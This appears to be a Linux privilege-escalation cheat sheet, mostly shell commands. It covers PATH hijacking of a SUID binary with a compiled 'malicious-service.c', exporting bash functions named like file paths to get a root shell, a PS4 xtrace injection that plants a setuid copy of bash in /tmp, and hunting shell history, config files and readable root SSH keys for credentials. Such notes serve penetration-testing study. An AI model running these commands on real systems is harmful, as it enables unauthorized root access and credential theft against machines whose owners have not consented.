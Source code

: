 Compile it and add to path:
```sh
gcc -o service malicious-service.c

PATH=.:$PATH /usr/local/bin/vulnerable
```

## SUID / SGID Executables - Shell Features
```sh
/bin/bash --version
```

### bash versions < 4.2-048 
it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any executable.

```sh
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```


### bash versions < 4.4
In debugging mode bash uses the environment variable `PS4` to display a prompt. We can abuse this be setting the variable to an embedded command.
```sh
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)'
```

## History
Sometimes passwords can be included in the `history`
```sh
cat ~/.*history | less
```

## Passwords & Keys 

### Config Files
Configuration files sometimes store passwords in clear text.
```sh
ls /home/user

myvpn.ovpn
```

### SSH Keys
If an ssh key is readable it can be copied.
```sh
ls .ssh

-rw-r--r-- 1 root root 0000 Aug 25 2024 root_key
```
